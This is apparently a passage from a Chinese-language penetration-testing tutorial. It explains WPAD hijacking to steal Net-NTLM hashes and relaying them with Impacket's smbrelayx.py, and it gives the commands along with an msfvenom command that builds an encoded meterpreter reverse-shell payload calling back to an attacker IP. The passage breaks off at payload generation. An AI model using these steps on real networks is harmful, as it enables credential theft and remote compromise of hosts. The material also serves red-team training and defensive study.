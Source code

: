 *   **利用WPAD劫持获得Net-NTLMHash**
    

WPAD 网络代理自动发现协议是一种客户端使用DCHP、DNS、LLMNR、NBNS协议来定位一个代理配置文件(PAC)URL的方法。WPAD通过让浏览器**自动发现代理服务器**，查找存放PAC 文件的主机来定位代理配置文件，下载编译并运行，最终自动使用代理访问网络。

一个典型的劫持方式是利用LLMNR/NBNS欺骗来让受害者从攻击者获取PAC文件，PAC文件指定攻击者就是代理服务器，然后攻击者就可以劫持受害者的HTTP流量，在其中插入任意HTML标签从而获得用户的Net-NTLMHash。

下面来借助一个小实验来讲解该攻击方法。

### Impacket中的smbrelayx.py

攻击者伪造一个恶意的SMB服务器，当内网中有机器Client1访问这个攻击者精心构造好的SMB服务器时， smbrelayx.py 脚本将抓到 Client1 的 Net-NTLM Hash ，然后 smbrelayx.py 用抓取到的 Client1 的 Net-NTLM Hash 重放给 Client2 。

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

开始实战，用 smbrelayx.py 脚本来完成任务，用`-c`选项来在受害机192.168.52.143上面执行命令：

```
./smbrelayx.py -h <Client2 IP> -c Command
```

```
![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

```

此时我们让Client1访问这个攻击者精心构造好的SMB服务器：

```


```
net use \\192.168.52.131
```




```

此时，攻击者的smbrelayx.py脚本上就会发现命令成功执行了：

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

在实战中，我们会提前生成了一个 Metasploit 的 payload 并放置在当前目录下，然后用`-e`选项在目标主机上传并运行我们的payload

先生成一个metasploit木马：

```


```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.52.131 LPORT=4444 -e x86/shikata_ga_nai -f exe -o ~\shell.exe
```




```
